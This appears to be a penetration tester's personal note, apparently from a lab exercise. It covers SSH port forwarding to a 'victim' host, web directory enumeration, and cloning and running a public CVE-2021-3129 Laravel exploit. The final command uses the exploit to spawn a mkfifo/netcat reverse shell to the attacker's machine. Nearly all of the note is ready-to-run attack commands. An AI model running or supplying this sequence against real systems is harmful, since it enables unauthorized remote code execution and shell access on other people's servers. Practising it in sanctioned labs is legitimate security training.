 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

####  example
FIRST, if the .ssh directory does not exist for the user, create it:

![[Port 22 - SSH  ~#Generate key upload to victim]]

Kali:
```bash - kali
ssh -i id_rsa -L 8000:localhost:8000 strapi@$TARGET
```

now visit 127.0.0.1:8000 in web browser

Now run web enumeration tools against localhost:8000/

```bash - kali
dirb http://$TARGET:8000 /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

```bash - kali
git clone https://github.com/nth347/CVE-2021-3129_exploit.git  
```

```bash - kali
cd CVE-2021-3129_exploit  
```

```bash - kali
chmod +x exploit.py
```

```bash - kali
./exploit.py http://localhost:8000 Monolog/RCE1 id
```

```bash - kali
./exploit.py http://localhost:8000 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc $KALI 443 >/tmp/f"
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
